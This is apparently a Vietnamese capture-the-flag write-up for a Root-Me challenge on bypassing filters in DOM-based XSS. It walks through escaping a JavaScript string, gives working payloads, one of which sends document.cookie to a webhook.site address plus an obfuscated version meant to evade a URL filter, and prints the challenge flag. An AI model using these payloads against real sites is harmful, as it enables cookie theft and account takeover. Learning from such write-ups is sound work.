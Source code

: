 ```diff
@@ Web - Server Challenge
```

## XSS DOM Based - Filters Bypass [50 Points]

- Ở challenge này, tác giả cho ta một trang để nhập số

  ![15](img/15.jpg)

- Kiểm tra source thì thấy số ta nhập được render vào vị trí này và chẳng làm gì cả. Cho dù t có thắng trò này thì cũng không được flag

  ![15-1](img/15-1.jpg)

- Mục tiêu của ta là tìm cách truyền vào tham số number một chuỗi payload XSS để có thể khai thác, sau đó gửi link cho admin là có được flag

- Đầu tiên thử với payload đơn giản là 

  ```js
  <script>alert(1)</script>
  ```

  Thì thấy các kí tự ```<``` và ```>``` đã bị escape. 

  ![15-2](img/15-2.jpg)

- Tìm kiếm thêm ta thấy dấu ```+``` và dấu ```;``` cũng bị loại bỏ đi. Tuy nhiên còn một dấu ```/``` hữu ích thì vẫn được accept

- Nguyên đoạn code dòng đó sẽ là

  ```js
  var number = ' Chuỗi mà ta nhập vào nằm giữa 2 dấu single quote ' ;
  ```

  => Em thực hiện bypass như sau:

  ```js
  var number = '' == XSS-here // ' ;
  ```

  Tức chuỗi của ta nhập vào sẽ có dạng ```' == XSS //```

  Ví dụ là ```' == alert(1) //```

  ![15-3](img/15-3.jpg)

- Thay đổi payload để lấy cookie, payload trở thành

  ```' == (eval)(document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie))//```

- Và kết quả là ...

  ![15-5](img/15-5.jpg)

- Ta cần phải sửa lại chút để tránh bị phát hiện đang nhập vào một url

  ```' == (eval)(document.location='https'.concat('://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie)))//```

- Kết quả thu được

  ![15-4](img/15-4.jpg)

  ```diff
  --FLag là: rootme{FilTERS_ByPass_DOm_BASEd_XSS}
  ```

  ​